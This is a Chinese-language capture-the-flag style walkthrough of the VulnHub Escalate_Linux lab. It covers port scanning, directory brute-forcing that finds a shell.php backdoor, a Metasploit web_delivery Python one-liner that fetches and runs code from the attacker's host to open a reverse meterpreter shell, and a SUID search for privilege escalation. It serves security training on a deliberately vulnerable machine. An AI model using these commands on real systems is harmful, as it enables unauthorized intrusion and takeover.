




# Escalate_Linux：1

> https://download.vulnhub.com/escalatelinux/Escalate_Linux.ova

靶场IP：`192.168.32.210`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.210                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 04:09 EDT
Nmap scan report for 192.168.32.210
Host is up (0.00057s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.29 ((Ubuntu))
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     3 (RPC #100227)
33923/tcp open  nlockmgr    1-4 (RPC #100021)
35631/tcp open  mountd      1-3 (RPC #100005)
38897/tcp open  mountd      1-3 (RPC #100005)
48591/tcp open  mountd      1-3 (RPC #100005)
MAC Address: 00:0C:29:07:33:4C (VMware)
Service Info: Host: LINUX

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.99 seconds

```

浏览器访问80端口



爆破web目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -e -u http://192.168.32.210 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,cgi,sh                                                                                                          1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.210
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,cgi,sh,php
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/09/07 04:11:39 Starting gobuster in directory enumeration mode
===============================================================
http://192.168.32.210/index.html           (Status: 200) [Size: 10918]
http://192.168.32.210/shell.php            (Status: 200) [Size: 29]   
http://192.168.32.210/server-status        (Status: 403) [Size: 302] 
```

扫描发现有一个shell后门。



使用MSF生成payload

```
msf6 > use multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 192.168.32.130
lhost => 192.168.32.130

msf6 exploit(multi/script/web_delivery) > set SRVPORT 9999
SRVPORT => 9999
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.32.130:4444 
[*] Using URL: http://0.0.0.0:9999/62DZkxo
[*] Local IP: http://192.168.32.130:9999/62DZkxo
[*] Server started.
[*] Run the following command on the target machine:
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.32.130:9999/62DZkxo', context=ssl._create_unverified_context());exec(r.read());"

```

需要对payload进行urlencode



访问shell

```
meterpreter > execute -f /bin/bash -i -a "-i"
Process 6239 created.
Channel 1 created.
bash: cannot set terminal process group (6236): Inappropriate ioctl for device
bash: no job control in this shell
Welcome to Linux Lite 4.4 
 
Wednesday 07 September 2022, 04:18:57
Memory Usage: 354/985MB (35.94%)
Disk Usage: 5/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
 user6  / | var | www | html  
 user6  / | var | www | html  

```

查找suid文件

```
find / -type f -perm -4001 -exec ls -l {} \; 2> /dev/null
```



提权成功

